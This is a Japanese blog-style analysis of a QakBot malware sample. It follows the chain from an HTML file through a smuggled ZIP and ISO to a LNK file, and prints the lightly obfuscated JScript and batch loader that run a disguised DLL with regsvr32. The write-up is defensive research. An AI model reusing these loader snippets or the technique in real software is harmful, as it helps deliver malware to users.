 # QakBotを見てみる part2

何となくtwitterを見てたら、以下のように出てました。  

> #Qakbot is back after a short summer break
元ツイート： https://twitter.com/Max_Mal_/status/1569272800690700291

まず、Qakbotが夏休みから帰ってきたというのが少し面白かったのですが、そもそも確かに最近QakBotの名前また聞き始めたな、てのを今更気づきました。  
Note:　これ調べてるのは9/15です

で、見てみたら確かに9月以降から増えてます。  

![stats4qakbot](https://raw.githubusercontent.com/proshiba/analysis/main/QakBot/QakBot20220915/images/stats.png)
引用元： https://bazaar.abuse.ch/browse/tag/Quakbot/

なんですかね？攻撃者も夏休みを取るのかなぁ。ランサムウェアチームとかもそうですしね。。  
※余談ですが、今はLockBitのリークサイト掲載が異常に増えてますね。。心配になります

ということで、QakBotが増えてるならちょっと見てみたいな、という気持ちで少し確認してみました。  

### 調査開始！

まず、malwarebazaarにあった以下ファイルで調査をします。  
sha256: 24de45cc2be1db49390912f26adebbf9d8740808f5fb6306e9dbf8d9aa9c5d46

これをダウンロードして、中身を見てみますとまずは、htmlファイルになっています。前と同じですね。  

![html](https://raw.githubusercontent.com/proshiba/analysis/main/QakBot/QakBot20220915/images/html-file01.png)

まずは、このファイルの中身を見てみます。そうするとzipファイルの埋め込みがされているようですね、これも同じです。  

![html](https://raw.githubusercontent.com/proshiba/analysis/main/QakBot/QakBot20220915/images/html-file02.png)

ちなみにhtmlをブラウザで開くと以下みたいな感じです。  

![html](https://raw.githubusercontent.com/proshiba/analysis/main/QakBot/QakBot20220915/images/html-file03.png)

さあ、ZIPファイルを開いてみてみましょう。そうするとISOファイルが入っています。  
これをさらに見てみますと、lnkファイルと隠しフォルダが存在していました。  

![iso01](https://raw.githubusercontent.com/proshiba/analysis/main/QakBot/QakBot20220915/images/iso-file01.png)

lnkファイルはお馴染みのexplorerアイコンですね。これは間違いなく存在するプロセスですからね。  
さらに、lnkのつながっている先は隠しフォルダ内にある`youBe.js`というファイルです。

では、この隠しフォルダ`about`の中を見てみましょう。そうするとjsファイル以外にbatとdbファイルがあるようです。

![iso02](https://raw.githubusercontent.com/proshiba/analysis/main/QakBot/QakBot20220915/images/iso-file02.png)

さぁ次はjavascriptファイルですね。  

```js
/**
	{comment}
*/

function sh(str1)
{
	return(WScript.createObject("she" + str1 + "lication"));
}

var shell = sh("ll[.]app");
shell.shellexecute("about\\becauseTo[.]bat", "reg svr", "", "open", 0);
```
Note: 一応ドットだけdefangしました

めちゃくちゃ簡単なobfuscationですね。実際やりたいことは以下のコマンドですが、それを関数使って文字列結合することで見づらくしてます。

```js
"shell[.]application".shellexecute("about\\becauseTO[.]bat", "regsvr", "", "open", 0)
```
Note: 同上

次に、batファイルを見てみます。

```bat
@echo off
%1%232 about/itThis.db
exit
```

%1と%2は渡した引数のことですので、それぞれ以下になっています。  
1. %1 -> regsvr
2. %2 -> "" #空白

つまり、以下のコマンドを実行してます。  

`regsvr32 about/itThis.db`

まぁ、よくあるregsvr32の悪用ですね。そしてここからわかることは`itThis.db`というファイルはDLLと思われます。(まぁocxなど別のライブラリ系もあり得ますが)  

では、virustotalの結果を見てみましょう。  

![vt-file01](https://raw.githubusercontent.com/proshiba/analysis/main/QakBot/QakBot20220915/images/vt-file01.png)  
https://www.virustotal.com/gui/file/1cbd5c3072fd99bff1408bc1f8a3b09206322de8b83b743a57efa24adefdb44f

virustotalで見ることができるサンドボックス実行結果などはそこまで説明するような情報もなかったので割愛します。  

### 終わりに

見る限り、特別目新しいことはなかったですね。まぁDLLの方が見れてないですが。  
やっぱりバイナリ解析までできるようになった方がいいなぁ、というのをヒシヒシと感じてますので、今は勉強中です。そのうち上げます。

とりあえず、少しでも皆さんのお力になれれば幸いです。  
ありがとうございました！
